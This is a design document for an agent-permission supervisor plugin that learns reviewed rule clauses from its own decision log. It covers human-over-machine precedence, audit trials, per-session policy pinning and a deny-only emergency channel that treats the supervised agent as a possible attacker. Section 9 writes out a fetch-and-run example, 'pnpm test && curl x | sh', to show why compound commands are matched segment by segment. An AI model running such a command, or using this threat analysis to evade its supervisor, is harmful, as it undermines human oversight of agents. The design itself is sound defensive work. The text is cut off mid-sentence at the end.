

# Design: learned practices — closing the write path

**Date:** 2026-09-02
**Status:** Proposed

---

## Why this document exists

Session Sitter's read path works. A permission prompt arrives, the engine loads three
`bottom-line.md` tiers, puts them in front of a decision, and returns allow, rewrite, escalate or
deny — writing a durable record of it either way. The open plugin PRs add the half that makes a
decision citable: a matchable `Match:` pattern and a clause id on top of the same loader.

The write path does not exist.

[`docs/CORPUS.md`](../../CORPUS.md) says corpus entries are "distilled from" archived sessions.
There is no `distill` command. There is no extractor, no candidate, no proposal, no reviewer
workflow, and nothing in the repository writes a knowledge file except test fixtures. Practices are
typed by a human from a template, by hand, and the archive they are supposedly distilled from is
write-only: sessions go in, nothing comes out.

So the product's own claim — *your team's written practices decide* — currently rests on the team
finding time to write them. That is the half this document designs: an **offline, scheduled pipeline
that mines the tool's own decision log, proposes candidate clauses, validates them against real
history, and hands them to a human in a git diff**, with the accepted result compiled into an
artifact the runtime loads in half a millisecond.

It synthesises the five working specs in
[`2026-09-03-learned-practices/`](2026-09-03-learned-practices/) — schema, extraction,
validation, governance, runtime — into the argument a reviewer needs. Where those specs defend a
choice at length, this document gives the choice, the alternative, and why the alternative loses.
They carry what this compresses, including roughly 200 numbered test invariants; where they
disagree with this document, this document wins.

---

## Why this is not a duplicate of first-party work

This has to be answered first, because Claude Code already ships two things adjacent to what we are
building, and a design that ignores them is not worth reviewing.

**Auto memory is on by default.** Claude writes its own durable notes during a session — typed
`user` / `feedback` / `project` / `reference` — into a per-repo memory directory, as an index plus one
file per memory. The `feedback` type explicitly captures corrections you give Claude and approaches
you confirm. It is machine-local, silent, has no review gate, and is context for the model rather
than a governance artifact. **Automatic session-to-notes extraction is solved. We are not
rebuilding it.**

**`/auto-mode-setup` already mines your recent sessions to draft permission rules.** It reads hosts,
buckets and command names — never your messages — is user-scoped to your own settings, and is
all-or-nothing on accept. It is the closest first-party analogue to this pipeline that exists at any
vendor, and it offers itself after repeated denials.

What remains unclaimed, in priority order:

| | Unclaimed capability | The state of the art it is measured against |
|---|---|---|
| 1 | **Clause citation as a contract.** The applied clause is named deterministically, in the decision and in the record. | Auto mode scores severity internally and reports the fixed string `Blocked by classifier`. A built-in rule's label sometimes surfaces; a **user-authored** rule is never cited, and which you get is not configurable. |
| 2 | **Learned rules as a git artifact under team-scoped review.** One clause per file, accepted by a commit, reviewable as a diff, blameable, revertible. | Auto memory is machine-local and unreviewed. Cursor's team rules are dashboard-managed. Nobody reviews a learned rule as a diff. |
| 3 | **Rewrite-and-recheck.** The unsafe call becomes the safe one, and the rewritten input is re-evaluated against the deny clauses before it is returned. | No first-party or competitor equivalent. |
| 4 | **An attributed decision record covering allows as well as denials.** Every decision, with the clause, the actor, the latency and the outcome, queryable. | `/permissions` has a "Recently denied" tab: denials only, descriptions rather than inputs, no rule attribution. |
| 5 | **Generalising from repeated decisions.** Four observed `npm test` shapes become one clause with a widened pattern, at the narrowest level that covers the evidence. | First-party "don't ask again" saves the literal or prefix rule — deliberately the opposite of generalising. |
| 6 | **A versioned, compiled rule artifact.** Content-addressed, pinned per session, so a citation resolves years later against the revision that fired. | No first-party precedent. Greenfield — and the thing our prompt-cache constraint requires. |

Two competitors converged on the same architectural conclusion independently, which is the strongest
external evidence available for (2): **both Cursor and Windsurf tell their users that machine-local
memory is the disposable tier and that durable knowledge belongs in a reviewed file in the
repository.** We are not arguing a novel position. We are building the reviewed-file tier that the
vendors point at and none of them ships.

---

## The constraint that shaped everything

An additive learning pipeline is, by default, an engine for making a codebase's rule file worse
faster. The measurements are not ambiguous:

| Measured | Source |
|---|---|
| Agent rule files grow **+226%** over their lifetime | corpus study of public agent rule files |
| **+4.9** net instructions per commit — additions vastly outnumber deletions | same |
| Instruction-following collapses to **68% at 500 instructions**, monotonically decreasing in count | arXiv:2507.11538 |
| Once a rule's rationale is gone, removing it without risking a regression costs **O(2^\|D\|)** | arXiv:2608.11095 |

The last line is the important one, and it explains the first three. **Nobody deletes rules because
deletion is unfalsifiable.** To find out whether a rule still matters you would have to remove it
and watch production for weeks with no control group. Faced with that, every rational reviewer keeps
the rule. So the file grows, and instruction-following degrades, and clause count becomes a
*correctness* cliff rather than a cost line.

A pipeline that proposes clauses on a cron reaches that cliff faster than a human typing them.

**Our answer is that replay makes deletion falsifiable.** Because every decision is recorded with
its inputs and its verdict, a clause can be removed from a corpus clone and the recorded history
re-evaluated without it. The output is a sentence a reviewer can act on:

> *Removing this clause would change 0 of your last 500 decisions.*

Nobody else does this. Replay of a whole rules file exists in one small project; replay of **one
clause in isolation against a permission-decision log** does not exist anywhere we could find. It
is the reason this design is allowed to add clauses at all, and it is why three things fall out of
it that would otherwise be arbitrary:

- **the rationale is a schema requirement**, not a lint warning — a clause whose *why* is gone is
  permanent by construction, so the compile refuses it;
- **`retired` is a first-class status** with a required reason, because "replaced by a better rule",
  "sunset on a date" and "proved to change nothing" are three different histories and collapsing
  them destroys the only thing a future reviewer needs;
- **the pipeline is net-neutral by design** — every run prints its net clause delta, and at the
  ceiling it will not emit an addition without a paired retirement candidate.

One caution the research itself flags: a widely-quoted figure that 16 irrelevant instructions cost
24 percentage points of compliance appears only in a secondary write-up, not in the paper's own
results. It is used here as motivation and nowhere as a number that sets a threshold.

---

## The architecture



Read the diagram once for the shape and once for what is *absent from the hot path*. Extraction,
generalisation, validation, replay, ablation and compilation are all offline. The runtime does one
file read, one map build and one pass of pattern matching — measured at **0.50 ms total against a
2 ms budget**, at 200 clauses. Nothing in the write path can slow a human-visible prompt, because
nothing in the write path runs while one is pending.

Three properties of the flow are load-bearing rather than incidental:

- **`proposed` is inert, `audit` is measurable and inert, and only a human's commit reaches
  `accepted`.** No code path in the gate writes `accepted`; that is asserted by test, not by
  convention.
- **The pipeline's only write target is `learned/<id>.md`.** One function produces every write path
  and a guard re-validates the resolved real path before every write; anything else throws, and a
  throw means the run changes nothing and exits non-zero. A partial proposal is worse than none.
- **Every artifact downstream of the queue is derivable.** Delete the pipeline's state directory and
  the cost is one full re-scan — with one exception, the decline ledger, which encodes human
  decisions and therefore lives in the corpus repo beside the knowledge file it would have modified.

---

## The decisions that carry risk

Each of these could reasonably have gone the other way. The alternative is named in each case,
because a design record whose alternatives are all strawmen is not a design record.

### 1. Per-clause files with a `bottom-line` body, reusing the existing parser

A learned clause is a new file kind — one clause per file under `learned/` — whose frontmatter is
new and whose **body is a verbatim `### Intention:` + `Match:` + prose block**, parsed by the
existing `parseBottomLine`. `bottom-line.md` is untouched and stays the human lane.

*Rejected: appending to `bottom-line.md`.* A machine appending to a hand-written file conflicts with
human edits on every run, interleaves machine and human prose in the review diff, has nowhere to put
provenance, and reduces authorship to `git blame`, which any file move erases.

*Rejected: extending the existing metadata table.* The table cannot nest, so a provenance block
flattens into three keys that exist only because the container cannot hold one — and it puts nine
machine fields in front of a human trying to read four.

The cost of the chosen option is exactly **one frontmatter parser and one directory walk**. Nothing
existing is reformatted, revalidated or migrated; an absent `learned/` directory reads as zero
clauses through the loader's existing rule that a missing tier is skipped rather than an error. The
baseline that must stay green is **1,139 tests in 56 files** (a clean run on `10ff422`; PR #42 took
it to 1,240).

The frontmatter is deliberately **not YAML** and must not pretend to be: it is a documented subset —
scalars, inline bracketed lists, and exactly one nested block — and anything outside that subset is
a lint error naming the line, never a silent misparse. Zero runtime dependencies means no YAML
parser, and a hand-rolled parser that silently accepts a block list it cannot represent is how a
field becomes quietly empty.

### 2. `origin` is assigned from the path, never read from a field

A reader — human or runtime — must be able to tell a hand-written clause from a machine-proposed
one. `origin` is therefore **not a field**. The loader sets it from the directory it read:
`bottom-line.md` is `human`, `learned/<id>.md` is `learned`.

The reasoning is short and it generalises: the machine writes the file, so it can write any field
value it likes. It cannot write *the directory the loader chose to read*. An `origin:` key appearing
in a learned file lands in the unknown-field bucket and is ignored, and the lint errors on it by
name — because writing it is evidence that somebody believed it would work.

A human who wants a learned clause treated as their own moves it into `bottom-line.md` and deletes
the learned file: an ordinary edit, in an ordinary PR. `status: accepted` on a learned file means *a
human approved this machine clause*, which is a strictly weaker statement, and the ladder treats it
as such.

### 3. The five-rung ladder — a machine proposal never overrides a human, in either direction

The existing hook evaluates written red clauses before written green ones across all tiers, because
a deterministic matcher has to break the tie somehow and safety is the only defensible way. That
protects a team red from a user green. It does *not* protect a human green from a learned red. So
the clause rungs become four:

```
3a. human   red    → deny,  citing the clause
3b. human   green  → allow, citing the clause
3c. learned red    → deny,  citing the clause
3d. learned green  → allow, citing the clause
```

Two properties fall out, and both are tested: a machine clause can never contradict a human clause
about the same call, because any human match returns at 3a or 3b; and safety still wins *within* an
origin, so today's team-red-beats-user-green invariant is unchanged.

**Rung 3b before 3c is the surprising one and it is deliberate.** Read quickly it looks like the
unsafe direction winning. It is the same rule as everything else here: *a machine proposal never
overrides a human's explicit practice — not to permit what a human forbade, and not to forbid what a
human permitted.*

*Rejected: learned red beats human green.* One bad extraction then halts a team's work on a call a
human explicitly wrote down as allowed, **with no human in the loop at the moment it happens**. The
agent stops overnight, the citation names a clause nobody wrote, and the remedy is somebody waking
up. The failure it prevents, by contrast, already has a human remedy: if the human green is wrong, a
human changes it, in a PR, with a diff. Machine-proposed policy earns authority by being reviewed,
not by being pessimistic.

Two boundaries so this is not read as wider than it is. It is **not fail-open**: a learned red still
fires on every call no *human* clause covers, which is the overwhelming majority, and the engine's
built-in destructive-action table is untouched behind it. And **learned red still beats learned
green**, for the same tie-breaking reason as before. The overlap between a learned red and an
accepted human green is surfaced by the lint as a named contradiction — flagged, never silently
resolved at 3am by whichever rung ran first.

The validation gate enforces the same rule earlier: a candidate that would flip a decision a human
explicitly gave is auto-rejected before a reviewer ever sees it. Reviewer attention is the scarce
resource, and that class of candidate is pure noise.

### 4. The compiled revision is pinned per session

A session resolves the compiled policy revision **once, at `SessionStart`**, and every decision in
that session's life evaluates against that revision. The pipeline may publish at any moment; no
running session ever sees it. New sessions pick it up.

This is not a cadence knob. It is the only mechanism that works, and the reason is prompt caching.
The fast supervisor renders practices into the `system` block behind a cache breakpoint and measures
a **98.9% cache-read rate**. Because `system` renders before `messages`, **any byte change in the
practices block invalidates the whole conversation prefix**, not just the practices block.

Measured on the fast supervisor's ~11k-token steady state: a normal decision costs $0.0105 of input,
a decision after a prefix break costs **$0.0714 — 6.8×**, with **+590 ms** median latency (4,477 ms
cold against 3,886 ms warm). The multiplier is not the interesting part. **The scaling is**, because
the break cost is linear in that session's entire conversation length:

| Session context | One-time cost of one knowledge change | Latency penalty |
|---|---|---|
| 11k tokens (the measured benchmark) | $0.071 | +590 ms, measured |
| 100k tokens | **$0.625** | ~+5 s, extrapolated |
| 500k tokens (a long run on a 1M-context agent) | **$3.13** | ~+25 s, extrapolated |

And it is once *per live session*. Ten unattended agents at 200k context: one accepted proposal
costs about $12.50 and adds ten multi-second stalls, for a rule none of those sessions asked for.

Three plausible mitigations were considered and are dead. **Ordering volatile content last** has no
effect — a cached block is one key over its whole byte range. **Splitting stable and volatile
clauses across breakpoints** preserves the read on the stable half while the volatile half still
sits upstream of every message block, which is 95% of the tokens. **A breakpoint on the rubric
alone** caches nothing: the rubric is 1,681 chars ≈ 420 tokens, below the 512–4096-token minimum
cacheable prefix, and it would fail silently.

Pinning is not a tradeoff, which is what makes it the right answer: a session's first decision pays
a cold write regardless, so pinning at `SessionStart` costs **zero extra** cache writes. Mid-session
adoption exists as `policy repin`, which prints the bill first — computed from each session's own
recorded cache-read token count — and is never an automatic consequence of publishing.

The corollary is stated rather than hidden: **published policy applies to sessions started after
publication.** Which creates the hole that §7 closes.

### 5. Real audit mode — matched, recorded, and contributing nothing

An accepted-but-untrusted clause needs a trial stage. `status: audit` means the clause is **loaded,
matched deterministically, its would-be verdict written into the decision record, and the decision
made exactly as if the clause were absent.**

An earlier draft encoded audit as "accept at orange", and it was wrong in the direction that breaks
the product's headline scenario. Orange *acts*: it escalates with a countdown and denies on silence.
So a *widening* candidate — a clause whose entire purpose is to let more work proceed — would, in
"audit", block and escalate; at 03:00 there is nobody to escalate to, the countdown expires, and the
call is **denied**. The cost is not "more prompts for two weeks", it is "your overnight run stopped
on the call the candidate was proposing to permit." It also contaminates the evidence, collecting
how humans answer escalations rather than whether the clause decides correctly.

Real audit mode has one further requirement that makes the whole thing work: **an audit clause is
never rendered into the prompt.** A clause the model can read influences the outcome, which is the
opposite of audit. Two consequences worth having:

- **A trial is free.** Audit costs zero prompt tokens and cannot break the cached prefix, so a team
  can trial a clause across ten thousand real decisions at no cost. Promotion to `accepted` is what
  puts it in the prompt. This removes the only reason to rush a promotion.
- **A prose-only clause in audit is inert** — not rendered because it is not accepted, not matchable
  because it has no `Match:` line. So `accept --audit` refuses one outright rather than parking it
  in a trial that can never record a hit. The same clause at `accepted` is advisory: rendered,
  influencing the classifier, never deciding on its own.

Audit clauses are therefore **compiled into the artifact carrying `status: 'audit'`** and excluded
from *rendering* — one `status === 'accepted'` check in the selector. Omitting them from compilation
instead would make audit mode dead on arrival, because the runtime never reads markdown once an
artifact exists and the promote gate would wait forever for hits that cannot arrive.

A passed audit date changes nothing about enforcement. It is a lint error and a dashboard warning;
the clause stays in audit until a human promotes or retires it. A trial that graduates itself is a
trial that proved nothing.

### 6. The selector renders only patternless clauses and clauses that actually matched

Today's `renderKnowledge` prints every entry from every tier, unfiltered and untruncated. At 200
realistic entries that is **45,890 chars ≈ 11,473 tokens** — on its own more than doubling the
measured 11k prefix, and growing without bound as the pipeline learns. By contrast the transcript
renderer already caps at 40 turns and truncates payloads to 400 chars. This is a correctness bug the
learning pipeline would detonate, not an optimisation.

Selection is deterministic, budgeted, and ordered, and the budget is **two blocks** rather than one:
a revision-stable core in the cached `system` knowledge block, and a per-call selection on the
trailing user turn, which sits after the last cache breakpoint and therefore costs nothing in cache
terms. Putting per-call content inside the cached prefix instead would invalidate it on every
decision — the precise failure §4 exists to prevent. The two rules that matter:

**Matching is never budgeted.** Deterministic matching runs over *every* compiled clause, with no
cap and no retrieval. A red clause dropped by a budget is a silent safety failure. Matching 200
clauses against one command is **0.0065 ms**. The budget applies only to the classifier's knowledge
block, reached only when the deterministic ladder returned nothing.

**Clauses whose patterns were evaluated and missed are excluded from the prompt.** This is the
non-obvious one, and it is what makes §8's rendered-clause ceiling honest. The classifier is the *last* rung;
deterministic matching runs at every rung before it. So by the time a prompt is built, **every
matchable clause has already been tested against this call and lost.** Rendering it is prose
claiming to be about something its own pattern says this call is not: it cannot fire
deterministically, because that was already tried, and it consumes compliance budget to contribute
nothing. So the rendered set is (a) clauses with no patterns, chosen by token overlap with the
pending call, plus (b) clauses that actually matched — and nothing else.

Do not generalise that to "any clause with a `Match:` field". A red **without** patterns still
renders as prose at full budget, which is the correct price signal against writing prose reds.

Three further rules, each closing a real failure:

- **Red clauses are always included, and may exceed the budget**, with the overflow flagged on the
  record. Silently dropping a safety clause to fit a token budget is the worst failure available.
- **Overflow drops whole clauses, never truncates one.** A half-rendered clause is the worst possible
  input: the *why* survives and the *what to do instead* is cut. Every rendered clause is byte-identical
  to its compiled body, and the count of dropped clauses is stated in the prompt, so a decision's
  input set can be reconstructed.
- **`expires` is finally consumed, asymmetrically.** An expired yellow, green or prose clause is
  dropped from selection and from evaluation — the safe direction. An expired **red or orange still
  fires**, is removed from the prompt only, and is surfaced three ways: a lint error, a standing
  dashboard warning, and a field on every decision record where one was evaluated. A date that
  silently disarms a safety clause is an *invisible* failure whose first symptom is the incident it
  was written to prevent; a stale red that still fires is loud and self-reporting. **`expires` prunes
  the prompt; it never removes a block.** Disarming a red requires a human act — a reviewed diff
  setting `status: retired`.

### 7. A deny-only revocation channel whose grammar cannot express an approval

Pinning (§4) means a running session can never be told anything new. That is correct for cost and
determinism and it is a real hole: at 02:00 someone discovers agents doing something harmful, writes
a red clause, publishes — and ten unattended sessions keep evaluating the revision they pinned hours
ago.

The answer is an append-only JSONL channel read on the hot path, outside the compiled artifact, and
**structurally incapable of widening**. Two directives and no third:

| Directive | Effect | Direction |
|---|---|---|
| `block` | a pattern that denies, checked deterministically *before* the pinned policy and before any model call | adds a prohibition |
| `revoke` | a named clause stops producing its verdict — **restricted to clauses that grant an allow** (green, yellow, and the rewrite lane, which is allow-shaped because it returns `updatedInput`) | removes a permission |

Revoking a red or orange is refused by the CLI and ignored by the runtime. Disarming a block goes
through the corpus as a reviewed diff. *An emergency channel that can remove a block is not an
emergency channel, it is a backdoor.*

**Why the grammar, and not validation.** The supervised agent can write files, so anything the hook
reads from disk is in the worst case attacker-controlled — and this file deliberately sits outside
the corpus, with no git history, no CODEOWNERS, no schema gate, no replay and no revision. Its
safety comes entirely from what it *cannot say*: a `block` has no level, so no green; no fix, so no
rewrite; no paths, tier or weight, so no precedence interaction that could shadow a stricter clause.
A `revoke` can only subtract, and only from the allow-granting half. Unknown keys are ignored, and a
line carrying neither directive is skipped **for having no recognised directive** — not because a
forbidden word was spotted. That distinction is the whole design: rejecting lines containing `allow`
is a blocklist, and a blocklist is a thing to be gotten around; an allowlist of two directives is
not. A parse failure cannot grant, not because it is checked but because the grammar has no way to
express a grant.

So the worst an attacker who owns the file can do is **deny the user's own work** — loud, immediately
visible, and fixed by deleting a file.

Two consequences the specs work through and this document keeps:

- **Blocks are evaluated in `PreToolUse`, not only `PermissionRequest`.** `PermissionRequest` fires
  only when Claude Code was already going to prompt; a call the harness allows on its own never
  reaches it. So a block evaluated only there cannot reach exactly the calls that most need it. Both
  hooks call one shared evaluator, so there is one place a block can be missed rather than two that
  must be kept in agreement.
- **The file's absence is the attack.** Deleting or truncating it restores every revoked permission —
  the unsafe direction, achieved by the actor already assumed hostile, with a command no destructive
  table matches. Both halves are closed: writes to the policy directory become a built-in red at the
  rung before any clause is consulted, and the artifact carries a minimum entry count so that
  "fewer entries than expected" is distinguishable from "legitimately empty". On mismatch the runtime
  fails closed **in the affected direction only** — no clause-granted allow is honoured until it is
  resolved, while deterministic greens still allow, so the session is degraded rather than bricked.

The channel costs nothing in cache terms, and the invariant is exact: **nothing in the revocation
channel changes a byte of the `system` block.** A block is evaluated before a prompt exists; a
revoke is applied *after* the verdict, so a revoked clause stays in the rendered practices block,
byte-identical. Filtering it out of selection instead would break the prefix for every subsequent
decision in the session — which is the mistake a later "tidy-up" would make, so it has a regression
test.

### 8. The per-tier rendered-clause ceiling: 25, with same-tier displacement

The compliance curve in §3 is about *instructions in a prompt*. Byte budgets protect the prompt;
they do not protect compliance. So the ceiling is a **rendered-clause** count — clauses that reach
the prompt, not clauses that exist — and by §6, a deterministic-only clause never reaches the prompt, so it costs zero
instruction-equivalents and is exempt.

That exemption dissolves the eviction hazard for exactly the clauses that matter. A deterministic red
consumes no budget, so pushing a tier to its limit cannot create pressure to evict it. **There is no
housekeeping story that ends with a deterministic red gone.** That is structural rather than
procedural, which is why it is the guard this design relies on instead of an approval bar. A red
*without* patterns does count, which is the right incentive.

Displacement is **same-tier only**: a learned red can only displace a learned red, a green only a
green. The cross-tier disarm path — push a tier to its limit, then evict reds one at a time as
routine housekeeping, each eviction arriving as a tidy-up that never has to argue for a permission —
does not exist as a mechanism. And displacement is *checked*, not intended: an incoming clause names
its target in `displaces`, the target must be `retired` with `retired_reason: displacement` and a
back-reference in the same commit, or the compile fails. A one-in-one-out policy nobody verifies is
a policy that quietly stops happening on the first busy week.

`displaces` is deliberately distinct from `supersedes`, because *an eviction is not an improvement*.
`supersedes` says a better clause replaced this one on the same subject; `displaces` says the tier
was full and an unrelated clause lost its seat. The evicted clause was not wrong and may come back.
Newest does not win by default: a candidate with weaker replay evidence than its target is rejected,
which is the difference between a budget and a queue.

**The number 25 rests on a guess, and the guess is named.** The **total instruction-equivalent budget** is ~150
(a third of the way to the measured 500-instruction knee), and the per-tier ceiling of 25 follows from **an assumed ~2 instruction-equivalents per rendered clause** — the rule,
its scope, and usually one exception. That multiplier has not been counted against the real rendered
form. **If it is wrong the ceiling is wrong**: at 4 each it should be about 12. The
replacement is mechanical — count imperative sentences in the actual rendered prompt, divide by
clause count, set the ceiling from the measured multiplier — and it is the single highest-leverage
number in this design to replace with a datum.

One asymmetry the gate keeps, because it is the difference between evidence and its absence: **a zero
means less for a red than for a green.** A red that never fired has three explanations demanding
opposite actions — dead weight, a working deterrent (it fired once, behaviour changed, it stopped
firing), or insufficient exposure. So red ablation reads the *lifetime* record rather than a 90-day
window, and **the gate never auto-proposes retirement of a red or orange.** It classifies and a human
initiates. A confident-looking zero on a safety clause is worse than no output, because it launders
"I have no evidence" as "I have evidence of nothing".

### 9. Generalisation widens the pattern, and per-segment matching is what makes that safe

Generalising is the differentiator in §"unclaimed" item 5, and it is also the most dangerous thing
here, so the guarantee that contains it belongs in this list rather than in an implementation note.

**What we do differently.** First-party "don't ask again" persists the *literal* command line — for a
compound line, per subcommand — so it never matches the next near-identical call, and the user is
asked again. That is deliberate on their part and it is the opposite of learning. We instead widen to
the narrowest pattern that covers the observed evidence: four approved `npm test` shapes become one
clause, not four literals.

**The hazard, concretely.** A green clause matching `pnpm test` must not license
`pnpm test && curl x | sh`. This is not hypothetical. An earlier round of this work shipped a green
clause that authorised a whole compound line, and it was found by **running the plugin, not by
reading the diff** — which is the honest reason this subsection exists.

**The guarantee.** Matching is **per-segment**. A compound line is split on its operators, every
segment is judged independently, and the most restrictive verdict wins. A segment never inherits an
approval earned by its siblings, so a green covering one segment leaves the rest exactly as
unapproved as they were. The widening lattice reinforces it from the other side: certain axes are
never widened at all — redirects, privilege escalation, network egress, paths outside the repo, and
the policy directory itself.

This is a **security property, not a nicety**: it is the difference between a learned green clause
and an arbitrary-command allowlist, and it is a property of the *matcher*, which the pipeline can
only require and not enforce. The seven widening levels and the coverage floors that go with them are
in [`2026-09-03-learned-practices/11-pipeline.md`](2026-09-03-learned-practices/11-pipeline.md) §6,
and whoever implements the matcher should read it before
touching either.

---

## The review plane, briefly

The whole default path is Node and git, with no forge, no account, no network and no Python.
Proposals are files on the machine that mined them; accepted clauses are markdown in a git repo;
declines are an append-only ledger. Every richer surface — a GitHub dashboard issue, a PR, the local
dashboard — is a **projection** that can be deleted and rebuilt from those files. Authority runs
file → surface, always. A human gesture on a surface is a *trigger* that invokes the CLI, which
writes the file; miss the trigger and nothing is lost, the proposal simply stays queued. The failure
mode of the optional tier is staleness, never wrong state.

Three things in that plane are worth a reviewer's attention:

**A decline is permanent, and it is keyed on a fingerprint, not a PR.** The fingerprint hashes tier,
level, direction and normalised patterns — deliberately excluding the prose, so a re-worded identical
candidate stays suppressed, and deliberately including the patterns, so a candidate that *widens* the
match set is a different rule and is legitimately offered again. Closing a PR cannot be the source of
truth: the default path has no PRs, the miner runs offline, and PR-closed is lossy (staleness, a bad
rebase, repo cleanup — none of which mean "this rule is wrong forever").

**The noise budget is small and its numbers are borrowed with justification.** Five new proposals per
run, **ten open** — Renovate's `prConcurrentLimit`, adopted verbatim because it is a human-attention
number rather than a bot-throughput number, and that constant is the same for dependency bumps as
for policy clauses. Renovate's *hourly* limit deliberately does not transfer: it throttles a
continuous stream, and an hourly rate limit on a daily batch is a no-op. **When the queue is full,
mining stops rather than spilling** — candidates are fully re-derivable from the decision log, so a
dropped candidate is information we re-derive tomorrow, whereas a persisted backlog is a second
source of truth and a guaranteed staleness bug.

**Widening and narrowing get different bars.** Adding a green, lowering a level or broadening a
pattern needs more approval than the reverse, audit-first is mandatory for a team or project
widening, and a widening may never bypass the queue at any tier under any config. There is no
setting to change that; the asymmetry *is* the safety property. A wrong narrowing clause produces a
prompt a human answers — the system's normal working state. A wrong widening clause produces an
action nobody saw.

---

## Status, and the limits that are real

### What is built

| | State |
|---|---|
| PR #40 — corpus masking for keys containing `_` | open, and the base every fixture in this design assumes. The masking rules terminated in `\b`, so a real-format `sk-ant-` key containing an underscore was missed **entirely** and written to the corpus verbatim. It survived 35 passing tests because every fixture was underscore-free. |
| PR #41 — never read knowledge from the tree the supervised agent can write | open. The write-boundary hazard in §"architecture" restated as code. |
| PR #42 — the learned-clause foundation: a machine may propose without outranking a human | open. Shipped at `src/supervisor/learnedClauses.ts`, beside the loader it extends, because the policy layer's own directory lives on an unmerged branch. Took the test baseline from 1,139 to 1,240. |
| PR #43 — record the tool call each decision judged | open, and it **gates most of the pipeline**. Every structural detector keys on a shape derived from the tool call, and the record did not contain one: `source` is the channel, and the only tool identity was on the rule trace, populated only for rule-decided records. Until it lands, the pipeline can emit gap *counts* and override proposals and nothing else. |

PR #40 is also the reason for a rule that reads like paranoia and is not: **the validation gate does
not trust its own fixtures.** Its secret-scan over the knowledge tree is tested with realistic
base64url values containing `_` and `-`, and the test asserts the scanner's rule *table* rather than
one example per rule.

### What is designed and unbuilt

Everything else in this document: the extraction pipeline and its cron host, the validation gate and
replay, ablation replay, the compile step and the hashed artifact, revision pinning, the selector,
the revocation channel, the proposal queue and its CLI, and the local dashboard.

### The real weaknesses

**The org manager gets advisory governance with an audit trail, not enforced policy.** This is the
honest sentence and it belongs in the user docs, not only here. The knowledge path is a *user
setting*: a developer can unset it, point it at a fork, or delete the local clone, and the team tier
silently vanishes — because a missing tier is skipped rather than an error, which is right for
availability and terrible for mandate. Claude Code's classifier also deliberately refuses to read
project settings, precisely so a checked-in repo or a build step cannot inject its own allow rules;
that is a security decision to respect, not a gap to route around. What is available is real but
bounded: managed settings and managed `CLAUDE.md` can pin the path on an MDM-managed fleet, the
doctor command reports a missing team tier loudly, and the decision record shows which tiers informed
each decision — so **drift is detectable after the fact.** Detection is not prevention. *If you need
enforced policy, you need MDM, and you need it above this layer.*

**`revoke` cannot retract a permission already persisted into Claude Code's own settings.** When
generalisation is opted into with a persistent destination, an allowed call can hand a standing allow
rule to the harness. After that, matching calls never prompt, `PermissionRequest` is never invoked,
and revoking the clause that produced the rule acts on nothing — silently, and precisely for the
permissions granted often enough to be worth persisting. Three things bound it: generalisation is
opt-in; its default destination is in-memory and gone at session end, which is load-bearing and must
stay; and **`block` reaches the call anyway, because blocks are evaluated in `PreToolUse`.** So the
honest promise is two sentences, not one: **`revoke` narrows future decisions; `block` is the thing
that stops a call now.** `revoke` additionally prints the exact `/permissions` lines a human must
remove, from a ledger of the rules we caused, and edits a settings file only behind an explicit flag.
A brake advertised as a kill switch is worse than no brake.

**The transcript JSONL schema is officially disclaimed as internal and unstable.** Which is why the
decision log is the primary mining corpus and transcripts are an opt-in secondary: records are ours,
schema-stable, masked at write time, and each one is already a labelled decision. Transcript mining
is specified weakly on purpose — a version-pinned shape extractor that fails closed — and it is off
by default.

**The `~2 instruction-equivalents per clause` multiplier is a guess, and the per-tier ceiling of 25
is wrong if it is.** Stated fully in §8 with the measurement that replaces it.

Several other numbers are guesses and are marked as such wherever they appear rather than laundered
into facts: the 5% breadth ceiling for a candidate's pattern set (the *asymmetry* is the argument,
not the number), the 20% replay-churn auto-reject, the 30-day / 1,000-decision audit window for a
widening candidate, the 80-character rationale floor, and the pipeline's ~$1–3/month model cost,
which is a sizing sketch and not a measurement. The cost, latency and artifact numbers in §4 and the
architecture section are measured; they say so where they are used.

**One thing was deliberately not verified.** Auto memory will be writing notes into the same
machine our pipeline mines. Our position is: complement it, document the overlap in the user docs,
and **read nothing** — the privacy rule forbids reading the content of that directory, and an attempt
to inspect one of those files was itself denied by the auto-mode classifier as PII handling. A
